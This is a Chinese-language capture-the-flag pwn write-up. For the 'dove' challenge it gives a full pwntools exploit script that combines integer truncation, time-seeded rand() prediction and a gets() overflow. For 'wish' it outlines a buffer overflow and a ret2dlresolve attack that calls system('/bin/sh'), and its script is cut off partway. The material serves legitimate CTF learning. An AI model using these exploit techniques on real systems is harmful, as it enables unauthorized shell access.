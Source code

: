 ```cpp
int win_flag = 0;
if (win_count > 2) {
		gets(&a);
	}
	else {
		puts("\n加油，再试一次吧！");
	}
```
整个题目脚本如下：  
```python
from pwn import *
import ctypes

p=process("./dove")

libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libm.so.6') # 预先加载libc减少延迟

print(p.recv().decode())
p.sendline(b"-9223372036854775798") # longlong < 10, 转int之后正好=10

print(p.recv().decode())
p.sendline(b"-") # 跳过scanf 或者用一个很大的数字也可以 比如上边的-92233...

libc.srand(libc.time())
print(p.recv().decode())
p.sendline(b"10 "+str(libc.rand()).encode()) #同步生成随机数

print(p.recv().decode())
p.sendline(b"a"*50) # 溢出覆盖后边的变量

p.interactive()
```
### wish
首先ckecksec看下保护  
![checksec](img/mute1.png)  
平平无奇只开了NX和部分RELRO，IDA看逻辑：  
```cpp
ssize_t vuln(){
  char buf[8]; // [esp+Ch] [ebp-Ch] BYREF

  return read(0, buf, 52);
}
```
是一个溢出，但是很可悲的是这个题目不仅没有后门函数，甚至没有解析 **任何的输出方法** ，没有输出就难以泄露地址，而libc又是随机加载的不知道初始地址，所以我们有以下思路：
- 爆破libc的偏移 return to OneGadGet
- ret2dlresolve
其中方法二是一种比ret2libc更强大的ROP，可以在不泄露libc地址的情况下通过dlresolve用任意函数名覆盖解析已有的函数。而pwntools又提供了强大的Ret2dlresolvePayload类，下面是自动化脚本：
```python
from pwn import *

context.binary = elf = ELF('wish')
r = remote("xx.xx.xx.xx",xxxx)
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
```